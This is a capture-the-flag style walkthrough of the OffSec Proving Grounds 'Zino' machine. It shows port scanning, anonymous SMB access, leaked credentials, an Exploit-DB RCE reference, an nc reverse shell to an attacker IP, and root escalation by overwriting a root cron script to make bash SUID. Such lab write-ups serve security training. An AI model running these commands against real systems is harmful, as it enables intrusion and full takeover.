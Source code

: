 # Zino

## Info

Zino is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp ports.

```
21/tcp   open  ftp         syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 61 Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?      syn-ack ttl 61
8003/tcp open  http        syn-ack ttl 61 Apache httpd 2.4.38
```

## smb

Anonymous smb login allowed.

```
smbclient -U "" //192.168.243.64/zino
```

The following credentials are found in misc.log.

```
admin:adminadmin
```

## HTTP 8003

Booked scheduler is vulnerable to the following rce exploit.

```
https://www.exploit-db.com/exploits/50594
```

## User

nc reverse shell.

```
nc -e /bin/bash 192.168.45.210 8003
```

## Root

The following cron job is running as root.

```
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```

Create a new python file and copy to the file that the cron job is running.

```
echo '#!/usr/bin/env python' >> /tmp/cleanup.py
echo 'import os' >> /tmp/cleanup.py
echo 'os.system("chmod +s /bin/bash")' >> /tmp/cleanup.py
cp /tmp/cleanup.py /var/www/html/booked/cleanup.py
```

Wait and execute bash.

```
/bin/bash -p
```
